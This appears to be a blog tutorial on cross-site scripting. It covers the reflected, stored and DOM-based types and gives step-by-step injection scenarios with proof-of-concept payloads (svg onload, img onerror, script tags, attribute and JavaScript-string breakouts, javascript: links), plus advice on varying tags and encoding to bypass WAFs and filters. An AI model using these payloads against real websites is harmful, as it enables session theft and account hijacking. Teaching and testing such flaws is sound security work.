 ```yaml
---
layout: post
title: Cross-site Scripting (XSS)
description: >

tags: [webapp]
---
```


  **Cross-site Scripting (XSS)** is a vulnerability which allows an attacker to execute malicious JavaScripts or html code via input fields on the victim machine to steal session cookies which can be used to hijack the victim account  

Cross-site Scripting (XSS) is an attack is performed with a crafted malicious Javascript inserted into the application user input which is then stored on the database of the application. Whenever any user visits that particular, the crafted Javascript gets executed and the user session information will be transferred to the attacker server.  
### What are the attacks can be performed?
- Allows an attacker to: 
 - Steal Session Cookies (Can hijack victim session)
 - Redirect users to malicious sites
 - Perform Phishing Attack
 - Prompt users to download Malwares (embedded within the code)
 - Website Defacement  
### Prone Vectors for XSS 
- User Input Fields
- HTTP Headers (User-Agent, Referrer etc) 
## Types of Cross-site Scripting (XSS)   
### Reflected Cross-site Scripting (XSS)
  In this type, the user input will be reflected only once. Whenever the user clicks on the link it gets executed. Hence, the malicious script will be executed once on the victim machines
{:.lead}  
### Stored Cross-site Scripting (XSS)
  In this type, the user input will be stored in the database on the same location. Whenever any user visits the injected page, the malicious script will be executed. Hence, the malicious script will be executed to every user whoever visits the injected page on the victim machine
{:.lead}  
### DOM-based Cross-site Scripting (XSS)
 In this type, the user input will be stored on the DOM Parser of the victim machine. Whenever the user visits the injected page, the script which is stored on the DOM Parser will be executed. Hence, the malicious script will be executed on the victim machine. Here the difference is, "It stores the malicious script on the victim browser (DOM Parser)"
{:.lead}  
### How Does it Work? 
Let's have look at different scenarios:

**Scenario 1:**  
Step1: User entered "Hello" to in search box and reflected the input as shown 

![](https://raw.githubusercontent.com/n0tak1dd1y/master/assets/webapp/1.PNG)

Step2: Press "CTRL+U" to see the source code and note the location of User input as shown  

![](https://raw.githubusercontent.com/n0tak1dd1y/master/assets/webapp/2.PNG)

Step3: Enter below payload in search box as shown
 ```js
<svg onload="alert(1)">
``` 
![](https://raw.githubusercontent.com/n0tak1dd1y/master/assets/webapp/3.PNG) 

Step4: Voila!!! got executed  

![](https://raw.githubusercontent.com/n0tak1dd1y/master/assets/webapp/4.PNG)

Step5: Now Press "CTRL+U" to see the how the script is reflected in the source code  

![](https://raw.githubusercontent.com/n0tak1dd1y/master/assets/webapp/5.PNG)

Step6: Note the script is placed between "<p></p>". It shows that we can pass all the tags which has the syntax as "<></>" or "<>"  
For Example: 
~~~html
<script>alert(1)</script>, <a href="javascript:alert(1)">hello</a>
<img src=1 onerror="alert(1)">
~~~
**Scenario 2:** 

Input as
~~~html
<input type=text name="Search" value="books">
~~~

Your search results are : <input type=text name="Search"  value="books">

**Attack**

Input as
~~~html
<input type=text name="Search" value="books"><script>alert(1)</script>">
<input type=text name="Search" value="books" onmouseover="alert(1)">
~~~

Output as

Your search results are :
~~~html
<input type=text name="Search" value="books"><script>alert(1)</script>">
~~~
Once the page loaded script will be executed
~~~html
<input type=text name=" Search" value="books" onmouseover="alert(1)">
~~~
When the user hover the mouse on books, script will be executed. 

These are called eventhandlers which are responsible for executing the function when an appropriate event is occurred. 
Voila!!! Our scripts are executed. 
In the scenario, the payloads can only be framed as shown: 
It should start with either: ">< or " eventhandlers 
These are the only way to fix the syntax with the malicious script. 
**Scenario 3:**

Input as
~~~html
<input type=text name="search" value="books">
~~~
Output as
~~~html
  Var search="books";
  Var search="books";
~~~

**Attack**

Input as
~~~html
<input type=text name="search" value="books";alert(1);//hell">
~~~
Output as
~~~html
   Var search="books";alert(1);//hell";
   Var search="books";alert(1);//hell";
~~~
Voila!!! our payload got executed

Here the logic is payload sits between " in the javascript syntax.

Hence, we need to fix it with javascript syntax.

Only the below shown payload can be used :
~~~html
  ";alert(1)//11
  ";alert(1)//11
~~~
**Scenario 4: Trigger XSS with links**

Input as
~~~html
   <input type=text name="link" value="any url">
~~~
Output as

Your Search results are as : any url 
**Attack**

Input as
~~~html
  <input type=text name="link" value="<a href=javascript:alert(1)">Click here</a>">
~~~
Output as

Your Search results are as :  Click Here 
Voila!!! The script gets executed on clicking the link
The above mentioned payload can be used to bypass many filters in the current scenarios 
There are many ways to use a particular payload, I have just shown few variations to understand how an xss payload can be created or framed.
Depends on the WAF, filters, we need to use different "EvenHandlers, HTML tags" to perform XSS.
Explore as many functions, tags as possible to be effective in XSS along with encoding techniques

